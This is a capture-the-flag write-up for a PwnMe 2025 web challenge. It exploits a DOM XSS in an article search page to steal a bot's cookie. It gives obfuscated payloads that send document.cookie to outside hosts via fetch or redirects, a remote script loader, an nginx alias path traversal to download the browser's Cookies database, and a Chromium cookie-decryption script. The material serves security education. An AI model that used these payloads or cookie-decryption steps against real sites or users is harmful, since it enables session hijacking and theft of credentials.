




This was a medium whitebox challenge, the files are available for download [here](https://github.com/sajjadium/ctf-archives/tree/64792ed55d90e43deb30cca2aa1f09e106a0eee3/ctfs/PwnMe/2025/Quals/web/Hack_the_bot_1)

## Initial Look

The first flag is stored in a cookie that the bot will have.

```js
const express = require("express");
const path = require("path");
const fs = require("fs");
const { spawn } = require("child_process");
const puppeteer = require("puppeteer");
const { format } = require("date-fns");

const app = express();
const port = 5000;

const logPath = "/tmp/bot_folder/logs/";
const browserCachePath = "/tmp/bot_folder/browser_cache/";

const cookie = {
  name: "Flag",
  value: "PWNME{FAKE_FLAG}",
  sameSite: "Strict",
};

app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "public")));

app.set("views", path.join(__dirname, "views"));
app.set("view engine", "ejs");

if (!fs.existsSync(logPath)) {
  fs.mkdirSync(logPath, { recursive: true });
}

if (!fs.existsSync(browserCachePath)) {
  fs.mkdirSync(browserCachePath, { recursive: true });
}

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

async function startBot(url, name) {
  const logFilePath = path.join(logPath, `${name}.log`);

  try {
    const logStream = fs.createWriteStream(logFilePath, { flags: "a" });
    logStream.write(`${new Date()} : Attempting to open website ${url}\n`);

    const browser = await puppeteer.launch({
      headless: "new",
      args: [
        "--remote-allow-origins=*",
        "--no-sandbox",
        "--disable-dev-shm-usage",
        `--user-data-dir=${browserCachePath}`,
      ],
    });

    const page = await browser.newPage();
    await page.goto(url);

    if (url.startsWith("http://localhost/")) {
      await page.setCookie(cookie);
    }

    logStream.write(`${new Date()} : Successfully opened ${url}\n`);

    await sleep(7000);
    await browser.close();

    logStream.write(`${new Date()} : Finished execution\n`);
    logStream.end();
  } catch (e) {
    const logStream = fs.createWriteStream(logFilePath, { flags: "a" });
    logStream.write(`${new Date()} : Exception occurred: ${e}\n`);
    logStream.end();
  }
}

app.get("/", (req, res) => {
  res.render("index");
});

app.get("/report", (req, res) => {
  res.render("report");
});

app.post("/report", (req, res) => {
  const url = req.body.url;
  const name = format(new Date(), "yyMMdd_HHmmss");
  startBot(url, name);
  res.status(200).send(`logs/${name}.log`);
});

app.listen(port, () => {
  console.log(`App running at http://0.0.0.0:${port}`);
});
```

Initial observations:
- Using `express`
- Using `puppeteer` for the bot on `/report`

We need to find some sort of URL inside the applicataion (restricted by the `url.startwith("http://localhost/")`) to set the cookie then exfiltrate the cookie contents.

The general function of the application is that is displays some articles and we can report a URL to the bot:


## DOM XSS

Looking at the functionality of search, the source code `source/public/js/script.js` reveals a vulnerability:

```js
function getSearchQuery() {
    const params = new URLSearchParams(window.location.search);
    // Utiliser une valeur par défaut de chaîne vide si le paramètre n'existe pas
    return params.get('q') ? params.get('q').toLowerCase() : '';
}

...

function searchArticles(searchInput = document.getElementById('search-input').value.toLowerCase().trim()) {
    const searchWords = searchInput.split(/[^\p{L}]+/u);
    console.log(searchWords);
    const articles = document.querySelectorAll('.article-box');
    let found = false;
    articles.forEach(article => {
        if (searchInput === '') {
            article.style.display = '';
            found = true;
        } else {
            const articleText = article.textContent.toLowerCase();
            const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
            console.log(isMatch);
            if (isMatch) {
                article.style.display = '';
                found = true;
            } else {
                article.style.display = 'none';
            }
        }
    });
    const noMatchMessage = document.getElementById('no-match-message');
    if (!found && searchInput) {
        noMatchMessage.innerHTML = `No results for "${searchInput}".`;
        noMatchMessage.style.display = 'block';
    } else {
        noMatchMessage.style.display = 'none';
    }
}
```

Reading through the functions, this snippet grabs my attention:

```js
const noMatchMessage = document.getElementById("no-match-message");
if (!found && searchInput) {
  noMatchMessage.innerHTML = `No results for "${searchInput}".`;
  noMatchMessage.style.display = "block";
} else {
  noMatchMessage.style.display = "none";
}
```

If there is no result, the user input is mirrored to the innerHTML, this is a DOM XSS!

We can test this using an `<input>` field.



We can also use `autofocus` to automatically focus on the field with the payload: `<input autofocus>`.

Now, we just add XSS with `onfocus`: `<input autofocus onfocus="">` and that should be fin-

Oh. It's in the article .w.



So we need to find some other attribute, we used `onfocusin`:

```
<input autofocus onfocusin=confirm()>
```

We now get a confirm alert box:


## XSS: Exfiltration efforts

We now need to just do a `fetch()` to send a web request with the cookies. This turned out to be a lot more of a pain due to how it selects its words.

```js
function searchArticles(searchInput = document.getElementById('search-input').value.toLowerCase().trim()) {
...
const searchWords = searchInput.split(/[^\p{L}]+/u);
...
const articleText = article.textContent.toLowerCase();
const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
...
}
```

- We can't use capital letters due to the `.toLowerCase().trim()` on the input of the function.
- The regex `/[^\p{L}]+/u` means any amount of any non-unicode letter, splitting by this means we can't use alternatives to characters outside of the usual unicode letterspace, they are all spaces.
- The `isMatch` then checks for and regex pattern with that string ignoring case and being unicode-aware.
- `some()` returns if ANY are found of any amount

This made avoiding the string collisions challenging, but the workaround we found utilised `.substr()`.

We were able to wrap a built string in `eval()` to achieve the XSS exfiltration:

```js
<input onfocusin="eval('fetcha'.substr(0,5)+'(\''+'httpa'.substr(0,4)+'://exam'+'.pla'.substr(0,2)+'eex.'+'coma'.substr(0,3)+'/?yeet='+btoa(document.cookie)+'\')')" autofocus>
```

This works for local (sometimes) but because the cookie is set after we can't rely on this for remote, we want to write a script that wait's for cookies to exist (or delays) then grabs the cookies.

We had two solutions for this challenge (but I will outline some more at the end for learning).

```js
"set" +
eval("'\\xa".substr(0, 3) + "54" + "'") +
"imeout(function(){" +
"fetcha".substr(0, 5) +
"('" +
"httpa".substr(0, 4) +
"://example" +
".pla".substr(0, 2) +
"eex." +
"coma".substr(0, 3) +
"/?yeet='+btoa(document.cookie))},2000)";
```

As caps were blocked, we needed to use an eval inside the eval to create a capital letter to build the `setTimeout` function name, that's what `eval('\'\\xa'.substr(0,3) + '54' + '\'')` is for. This builds `\x54` which results in `T`.

In a readable format we get:
```js
setTimeout(function(){fetch('http://example.peex.com/?yeet='+btoa(document.cookie))},2000)"
```

The final payload URL that we report is:
```
http://localhost/?q=%3Cinput%20onfocusin%3D%22eval%28set%22%20%2Beval%28%22%27%5C%5Cxa%22%2Esubstr%280%2C%203%29%20%2B%20%2254%22%20%2B%20%22%27%22%29%20%2B%22imeout%28function%28%29%7B%22%20%2B%22fetcha%22%2Esubstr%280%2C%205%29%20%2B%22%28%27%22%20%2B%22httpa%22%2Esubstr%280%2C%204%29%20%2B%22%3A%2F%2Fexample%22%20%2B%22%2Epla%22%2Esubstr%280%2C%202%29%20%2B%22eex%2E%22%20%2B%22coma%22%2Esubstr%280%2C%203%29%20%2B%22%2F%3Fyeet%3D%27%2Bbtoa%28document%2Ecookie%29%29%7D%2C2000%29%29%22%3B%20autofocus%3E
```

This worked to grab the cookies from the remote, resulting in the flag:

Flag: `PWNME{D1d_y5U_S4iD-F1lt33Rs?}`

## Other Ways to Solve

### Script SRC

My idea was to add a `script` element to the end of the document and to have a custom `src` that allowed any script to be executed from our own domain, instead of filtering a script each time.

I ended up making this payload:

```js
<input onfocusin="eval('vara'.substr(0,3)+' '+'llasa'.substr(0,4)+'='+'docua'.substr(0,4)+'ment.vv'.substr(0,5)+'creav'.substr(0,4)+'vtev'.substr(1,2)+eval('\'\\xa'.substr(0,3)+'45'+'\'')+'laa'.substr(0,1)+'ementa'.substr(0,5)+'(\'scvv'.substr(0,4)+'riv'.substr(0,2)+'ptvv'.substr(0,2)+'\'qq'.substr(0,1)+')'+';llas.svv'.substr(0,7)+'ara'.substr(1,1)+'aca'.substr(1,1)+'vv=vv'.substr(2,1)+'zxz\'//zxz'.substr(3,3)+'afil'.substr(1,3)+'vesv'.substr(1,2)+'.'.substr(0,1)+'vseallv'.substr(1,5)+'.'.substr(0,1)+'vvdev/bvv'.substr(2,5)+'\';'+'docum'+'aaent.'.substr(2,4)+'boa'.substr(0,2)+'dy'+'.'.substr(0,1)+'vapv'.substr(1,2)+'pend'+'(llas);')" autofocus>
```

This (in readable form) is this:

```js
var llas = document.createElement("script");
llas.src = "//files.seall.dev/b";
document.body.append(llas);
```

It's just grabbing a file from my GitHub Pages site, and executing it as JavaScript.

The contents of which was:

```js
(function checkCookiesAndSendRequest() {
  if (document.cookie !== "") {
    fetch(`http://WEBHOOK/?cookies=${btoa(document.cookie)}`)
      .then((response) => response.text())
      .then((data) => console.log("sent!"))
      .catch((error) => console.error("Error:", error));
  } else {
    setTimeout(checkCookiesAndSendRequest, 100);
  }
})();
```

This then exfiltrates the cookies.

### iFrame SRCDOC

This was another solution by another player:

```html
http://localhost/?q=<iframe
  srcdoc="%26%2360;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;%26%23115;%26%23101;%26%23116;%26%2384;%26%23105;%26%23109;%26%23101;%26%23111;%26%23117;%26%23116;%26%2340;%26%2340;%26%2340;%26%2341;%26%2332;%26%2361;%26%2362;%26%2332;%26%23123;%26%23108;%26%23111;%26%2399;%26%2397;%26%23116;%26%23105;%26%23111;%26%23110;%26%2361;%26%2339;%26%23104;%26%23116;%26%23116;%26%23112;%26%23115;%26%2358;%26%2347;%26%2347;%26%23101;%26%23111;%26%2353;%26%23102;%26%2348;%26%23113;%26%23104;%26%2397;%26%23102;%26%23117;%26%2353;%26%23120;%26%2353;%26%2348;%26%23107;%26%2346;%26%23109;%26%2346;%26%23112;%26%23105;%26%23112;%26%23101;%26%23100;%26%23114;%26%23101;%26%2397;%26%23109;%26%2346;%26%23110;%26%23101;%26%23116;%26%2347;%26%2339;%26%2343;%26%23100;%26%23111;%26%2399;%26%23117;%26%23109;%26%23101;%26%23110;%26%23116;%26%2346;%26%2399;%26%23111;%26%23111;%26%23107;%26%23105;%26%23101;%26%23125;%26%2341;%26%2344;%26%2332;%26%2349;%26%2348;%26%2348;%26%2348;%26%2341;%26%2360;%26%2347;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;"
></iframe>
```

They used HTML escape codes inside an `iframe`'s `srcdoc` to run the following:

```js
<script>
  setTimeout((() =>{" "}
  {(location = "https://eo5f0qhafu5x50k.m.pipedream.net/" + document.cookie)}),
  1000)
</script>
```

Which then exfiltrated the cookie!

### Nginx Shenanigans

Full credit to Discord user `minilucker` for this solve.

Pulling out the browser cookies from the Puppeteer cache you can decrypt them for the flag.

Firstly send a report to the URL `http://localhost/` to initialise the cookies in the browser cache.

Then visit `http://localhost/logs../browser_cache/Default/Cookies` to download the Cookies file with a path traversal.

This occurs due to a misconfiguration in the nginx config:
```
events{}
user root;

http {
    server {
        listen 80;

        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /logs {
            autoindex off;
            alias /tmp/bot_folder/logs/;
            try_files $uri $uri/ =404;
        }
    }
}
```

You can read more about the location misconfiguration [here](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) but it allows path traversal.

We can initialise the `Cookie` file with `sqlite3`:
```bash
$ sqlite3 Cookies
sqlite> select hex(encrypted_value) from cookies;
763130AB3A186C367663FCBA25263072C8B5BFAF15135690D33686A9C6A4D0EA0403DE
```

This can then be decrypted using a Python script
```python
#! /usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# Function to get rid of padding
def clean(x): 
    return x[:-x[-1]].decode('utf8')

encrypted_value = bytes.fromhex("763130AB3A186C367663FCBA25263072C8B5BFAF15135690D33686A9C6A4D0EA0403DE") 

encrypted_value = encrypted_value[3:]

# Default values used by both Chrome and Chromium in OSX and Linux
salt = b'saltysalt'
iv = b' ' * 16
length = 16

# On Mac, replace MY_PASS with your password from Keychain
# On Linux, replace MY_PASS with 'peanuts'
my_pass = "peanuts"
my_pass = my_pass.encode('utf8')

# 1003 on Mac, 1 on Linux
iterations = 1

key = PBKDF2(my_pass, salt, length, iterations)
cipher = AES.new(key, AES.MODE_CBC, IV=iv)

decrypted = cipher.decrypt(encrypted_value)
print(clean(decrypted))
```

```bash
$ python3 script.py                                              
PWNME{FAKE_FLAG}
```